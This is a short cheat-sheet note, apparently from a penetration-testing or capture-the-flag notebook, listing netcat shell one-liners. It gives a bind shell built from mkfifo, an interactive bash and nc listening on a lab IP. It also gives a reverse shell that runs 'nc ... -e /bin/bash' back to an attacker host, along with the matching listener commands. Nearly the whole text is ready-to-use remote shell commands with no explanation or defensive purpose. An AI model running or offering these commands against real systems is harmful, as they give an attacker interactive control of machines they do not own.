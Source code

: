 [[nc]] #bash
#shell
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

```shell
nc -nv 10.129.41.200 7777

Target@server:~$  
```


## option 2

```bash
nc -nvlp 4444
```

```bash
nc 10.10.14.97 4444 -e /bin/bash
```
